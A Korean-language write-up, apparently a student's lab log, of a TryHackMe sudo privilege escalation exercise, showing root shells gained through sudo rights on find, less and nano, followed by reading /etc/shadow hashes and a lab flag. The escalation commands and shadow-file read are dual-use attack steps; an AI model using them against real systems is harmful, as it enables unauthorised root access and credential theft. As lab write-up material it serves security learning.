 ## Privilege Escalation: Sudo Exploitation
> TryHackMe의 "Privilege Escalation: Sudo" 실습을 통해, 특정 바이너리에 대한 sudo 권한을 악용하여 루트 권한을 획득하는 과정을 수행했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.60.159
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **OS 정보**: Ubuntu 20.04.1 LTS (Linux 5.4.0-1029-aws)
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속

- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.60.159
```
![SSH 접속 및 로그인](./screenshots/ssh_connect.png)


#### 2.2 Sudo 권한 확인

- karen 사용자는 비밀번호 없이 `find`, `less`, `nano`를 sudo로 실행할 수 있는 권한이 있다. (NOPASSWD 설정)

```bash
sudo -l
```

![sudo -l 결과](./screenshots/sudo_result.png)


#### 2.3 GTFOBins 참고
- https://gtfobins.github.io/ 사이트에서 각 명령어(`find`, `less`, `nano`)에 대한 권한 상승 방식 참고하여 루트 쉘 획득 시도를 하였다.

---

### 3. 명령어별 권한 상승

#### 3.1 find 명령어 이용

- `-exec` 옵션을 사용하여 루트 권한으로 쉘을 실행하였다.
```bash
sudo find . -exec /bin/sh \; -quit
```
- 이후 루트 쉘에서 flag2.txt 파일을 검색 및 확인하였다.

```bash
find / -name flag2.txt
cat /home/ubuntu/flag2.txt
```
![find를 이용한 루트 쉘 및 플래그 획득](./screenshots/find_flag.png)

---

#### 3.2 less 명령어 이용
- less 명령어로 파일을 열고 `!/bin/sh`를 실행하면 쉘이 생성되었다.
```bash
sudo less /etc/profile
!/bin/sh
```

![파일 내용](./screenshots/file_content.png)

- 해당 쉘은 sudo로 실행되었기 때문에 루트 쉘을 획득하였다.

![less를 이용한 루트 쉘 획득](./screenshots/less_root.png)

---

#### 3.3 nano 명령어 이용
- `nano` 실행 후 Ctrl+R, Ctrl+X 키를 눌러 명령 실행 모드 진입을 했다.
- `reset; sh 1>&0 2>&0` 입력하여 루트 쉘을 획득하였다.

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
![nano를 이용한 루트 쉘 획득](./screenshots/nano_root.png)

- 루트 권한이 부여되었음을 확인하였다.

```bash
cat /etc/shadow
```

- 루트 권한으로만 접근 가능한 `/etc/shadow` 파일 내용을 출력하였다.
- karen, frank 등의 계정 해시를 포함하여 모든 사용자 정보 확보하였다.

![shadow 파일 내용 확인](./screenshots/flag_and_user_property.png)

---

### 4. 최종 결과
- 루트 권한 획득 성공 (`uid=0(root)`)
- flag2.txt 파일에서 플래그 확보: `THM-402028394`
- `/etc/shadow` 파일을 통해 추가 사용자 정보 확보 가능

---

### 5. 배운 점
> ✅ Sudo NOPASSWD 설정과 GTFOBins 활용이 얼마나 강력한지를 실습을 통해 체감할 수 있었고, 각 바이너리 별로 쉘 획득 방식이 다양하다는 점을 실습으로 익힐 수 있었습니다.

